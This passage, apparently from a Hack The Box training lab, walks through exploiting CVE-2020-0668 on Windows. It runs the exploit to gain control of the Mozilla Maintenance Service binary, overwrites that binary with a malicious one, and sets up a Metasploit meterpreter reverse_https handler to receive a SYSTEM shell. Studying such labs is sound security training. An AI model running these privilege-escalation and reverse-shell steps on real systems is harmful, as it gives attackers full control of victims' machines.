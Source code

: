 Next, let's run the exploit. It accepts two arguments, the source and destination files.

``` batch
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"                                       
```

##### Checking Permissions of New File

The exploit runs and executing `icacls` again shows the following entry for our user: `WINLPE-WS02\htb-student:(F)`. This means that our htb-student user has full control over the maintenanceservice.exe binary, and we can overwrite it with a non-corrupted version of our malicious binary.

``` batch
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe 
NT AUTHORITY\SYSTEM:(F)                                                            BUILTIN\Administrators:(F)                                                         WINLPE-WS02\htb-student:(F)
```

##### Replacing File with Malicious Binary

We can overwrite the `maintenanceservice.exe` binary in `c:\Program Files (x86)\Mozilla Maintenance Service` with a good working copy of our malicious binary created earlier before proceeding to start the service. In this example, we downloaded two copies of the malicious binary to `C:\Users\htb-student\Desktop`, `maintenanceservice.exe` and `maintenanceservice2.exe`. Let's move the good copy that was not corrupted by the exploit `maintenanceservice2.exe` to the Program Files directory, making sure to rename the file properly and remove the `2` or the service won't start.

**The `copy` command will only work from a cmd.exe window, not a PowerShell console.**

``` batch
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

##### Getting Reverse Shell

Launch Metasploit using the below commands.

```shell-session
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

Start the service, and we should get a session as `NT AUTHORITY\SYSTEM`.

``` batch
C:\htb> net start MozillaMaintenance 

The service is not responding to the control function

More help is available by typing NET HELPMSG 2186
```

